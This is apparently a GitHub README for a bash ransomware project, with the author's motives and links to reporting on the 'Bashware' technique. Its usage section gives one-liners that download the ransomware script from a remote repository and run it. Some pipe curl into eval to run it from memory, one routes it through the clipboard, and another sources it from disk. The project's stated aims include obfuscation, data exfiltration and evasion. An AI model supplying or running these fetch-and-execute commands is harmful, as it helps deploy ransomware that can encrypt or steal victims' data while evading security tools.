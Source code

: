 # matryo.sh.ka
matryo.sh.ka is "ransomware" implemented in bash.  
It is the sister of [kukolny](https://github.com/wilsonfisk/kukolny)

## Why?:
  * Broaden my knowledge and understanding of Computer Science.
  * Explore the various tools and techniques employed by both Linux and Windows malware, including:
    * Obfuscation techniques in various languages
	* Exfiltration of data
	* Evasion and hiding malicious activity
  * Improving proficiency with bash, Linux, and Windows
  * Explore the new "Bashware" malware threat
  * Boredom

## Utilizing matryo.sh.ka:
  * **From Memory:**
    * **Method 1:**  M=$(curl -fsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh");eval "$M"
	* **Method 2:**  curl -fsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh"|xclip -selection clipboard;M="xclip -o -selection clipboard"&&eval "$M"
	* xclip can be replaced with pbcopy and pbpaste for OS X hosts.
	* xsel --clipboard  is another option
  * **From Disk:**
    * curl -OfsSL "https://raw.githubusercontent.com/wilsonfisk/matryoshka/master/matryoshka.sh";. matryoshka.sh

**Bashware references:**  
[Beware of the Bashware: A New Method for Any Malware to Bypass Security Solutions](https://blog.checkpoint.com/2017/09/11/beware-bashware-new-method-malware-bypass-security-solutions)

[Check Point Software Technologies, Ltd. Demonstration of the Bashware Technique](https://www.youtube.com/watch?v=fwEQFMbHIV8)

[Bish, bosh, Bashware: Microsoft downplays research on WSL Win 10 'hack' threat](https://www.theregister.co.uk/2017/09/12/microsoft_downplays_bashware_malware_threat/)

